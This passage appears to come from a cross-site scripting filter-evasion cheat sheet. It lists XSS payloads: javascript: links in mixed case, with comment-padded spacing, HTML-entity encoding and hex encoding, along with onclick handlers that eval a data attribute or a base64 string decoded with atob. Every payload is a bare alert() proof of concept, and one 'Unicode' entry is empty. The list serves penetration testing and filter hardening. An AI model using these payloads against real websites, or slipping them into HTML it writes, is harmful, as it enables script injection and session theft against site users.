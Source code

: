 15. **String Concatenation via Template Literals:**
     ```javascript
     `${'al'}${'ert'}(1)`
     ```

### Use different Encoding formats together (Uppercase, Lowercase, Unicode, Spaces, Comments, Newlines, Tabs...)
1. **Uppercase:**
    ```html
    <A HREF=JAVASCRIPT:ALERT()>click me</A>
    ```

2. **Lowercase:**
    ```html
    <a href=javascript:alert()>click me</a>
    ```

3. **Unicode Encoding:**
    ```html
    <a href=>
    ```

4. **Space to Comment:**
    ```html
    <a href=javascript:var/**/httpx/**/=/**/new/**/XMLHttpRequest()...>click me</a>
    ```

5. **HTML Encoding:**
    ```html
    <a href=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&# 97;&#108;&#101;&#114;&#116;&#40;&#41;>click me</a>
    ```

6. **Hex Encoding:**
    ```html
    <a href=%6A%61%76%61%73%63%72%69%70%74%3A%61%6C%65%72%74%28%29>click me</a>
    ```

Another examples:

1. **Using the `onclick` Event:**
    ```html
    <a href="#" onclick="alert();return false;">click me</a>
    ```

2. **`data-*` attribute and JavaScript:**
    ```html
    <a href="#" onclick="eval(this.dataset.code);" data-code="alert()">click me</a>
    ```

3. **Using Base64 and `atob()`:**
    ```html
    <a href="#" onclick="eval(atob('YWxlcnQoKQ=='))">click me</a>
    ```
